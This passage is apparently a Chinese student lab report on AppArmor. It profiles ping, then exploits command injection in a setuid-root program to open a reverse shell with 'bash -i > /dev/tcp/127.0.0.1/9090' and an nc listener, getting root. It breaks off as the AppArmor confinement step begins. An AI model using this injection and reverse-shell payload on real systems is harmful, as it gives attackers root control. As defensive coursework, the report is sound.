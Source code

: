 ```shell
sudo aa-genprof /bin/ping
#另开一个终端
ping www.baidu.co
```

​		按s，选择ignore，会发现另一个正在ping的终端突然被阻止了

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/lab369.png" alt="lab369" style="zoom:50%;" />

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/lab370.png" alt="lab370" style="zoom:50%;" />

​		再次ping www.baidu.com，观察到无法运行

![图片1](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E5%9B%BE%E7%89%871.png)

​		查看访问控制的配置文件，如图

![lab372](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/lab372-16563279874903.png)

#### 2.3.2 任务二：反向shell

> （1）编译command.c程序，设置 setuid root 权限；通过命令注入攻击， 创建 reverse shell。 
>
> （2）使用 apparmor 对该程序进行访问控制，禁止 attacker 通过命令注入创建 reverse shell； 命令注入方法：./command “localfile; ls” 
>
> （3）使用 apparmor 对该程序进行访问控制，允许 attacker 通过命令注入创建 reverse shell，但将 attacker 在 reverse shell 中的能使用的命令限制为 ls, whoami；

##### （1）

​		编译command.c并设置setuid root 权限

```shell
gcc command.c -o command
sudo chown root command
sudo chmod u+s command
```

![lab3123](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/lab3123-16563282176444.png)

​		通过命令注入攻击：

```shell
sudo ./command "localfile; bash -c \"bash -i > /dev/tcp/127.0.0.1/9090 0<&1 2>&1\""
#另开一个终端
nc -lnvp 9090
```

​		可以观察到成功获得了shell，且为root权限

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E5%9B%BE%E7%89%872.png" style="zoom:50%;" />

##### （2）

```shell
sudo aa-genprof command
```
